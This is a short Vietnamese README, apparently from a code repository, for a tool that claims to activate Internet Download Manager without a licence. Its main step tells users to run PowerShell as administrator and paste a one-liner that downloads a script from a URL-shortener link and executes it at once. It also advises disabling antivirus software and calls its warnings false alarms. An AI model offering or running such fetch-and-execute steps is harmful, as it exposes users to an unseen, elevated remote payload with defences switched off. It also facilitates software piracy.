 # Tool IDM activate

Công cụ này giúp bạn tự động kích hoạt IDM.

---

### Yêu cầu

* Hệ điều hành Windows
* Chạy bằng **PowerShell** với quyền **Quản trị viên (Administrator)**

### Hướng dẫn sử dụng

1.  Mở **Windows PowerShell** bằng cách nhấn chuột phải và chọn **Run as administrator**.

2.  Copy và dán toàn bộ lệnh dưới đây vào cửa sổ PowerShell rồi nhấn **Enter**:

    ```powershell
    irm https://bom.so/6q0viu | iex
    ```

3.  Làm theo các hướng dẫn tiếp theo trên màn hình (nếu có).

### ⚠️ Lưu ý

* Một số phần mềm diệt virus có thể cảnh báo nhầm. Bạn có thể cần tạm thời vô hiệu hóa chúng để chạy kịch bản.
* Hãy đảm bảo bạn tin tưởng vào nguồn gốc của kịch bản trước khi thực thi.
